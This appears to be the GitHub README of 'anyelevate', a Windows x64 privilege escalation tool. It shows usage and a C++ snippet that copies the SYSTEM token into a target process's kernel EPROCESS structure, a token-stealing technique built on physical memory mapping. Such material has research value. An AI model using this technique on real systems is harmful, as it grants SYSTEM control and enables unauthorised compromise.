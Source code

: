 <p align="center">
<img src="image.png">
  
<img src="https://img.shields.io/github/workflow/status/kkent030315/anyelevate/MSBuild?style=for-the-badge">
<img src="https://img.shields.io/badge/platform-win--64-00a2ed?style=for-the-badge">
<img src="https://img.shields.io/github/license/kkent030315/anyelevate?style=for-the-badge">
</p>

*CI falling because of version mismatch of static library, dont care*

# anyelevate
x64 Windows privilege elevation using anycall

# Usage

```bash
anyelevate.exe [process id]
```

- `[process id]` process id to elevate privilege

# How

Simply create copy of `nt!_EPROCESS.Token` in any desired target process.

```cpp
kernel::memcpy(
    ( void* )( ( uint64_t )process + RVA_PEPROCESS_TOKEN ),
    &system_process_token,
    sizeof( EX_FAST_REF ) );
```

Then you are `NT AUTHORITY\SYSTEM`.  
Imagine this is all done by one thing - the physical memory mapping.

## License

MIT copyright Kento Oki \<hrn832@protonmail.com\>

[color-console](https://github.com/kkent030315/anyelevate/blob/main/anyelevate/color.hpp) copyright 2018 Lei Fu
